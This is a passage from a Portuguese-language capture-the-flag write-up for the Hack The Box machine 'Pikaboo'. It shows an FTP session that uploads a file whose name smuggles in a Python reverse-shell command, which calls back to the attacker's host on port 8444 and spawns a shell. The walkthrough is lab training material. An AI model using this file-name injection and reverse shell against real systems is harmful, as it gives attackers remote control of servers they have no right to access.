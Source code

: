 O que precisamos fazer é setar um `netcat` na porta 8444 e enviar nossos arquivo para o diretório versions, que é onde temos permissão de escrita.

```
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ ftp 10.10.10.249
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:hastur): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd versions
250 Directory successfully changed.
ftp> put "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("\"10.10.14.111\",8444));[os.dup2(s.fileno(),f)for\ f\ in(0,1,2)];pty.spawn(\"sh\")';.csv"
local: |python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.111",8444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")';.csv remote: |python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.111",8444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")';.csv
sh: 1: .csv: not found
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
ftp> 
```

<img src="/htb/htb-pikaboo-12.png">
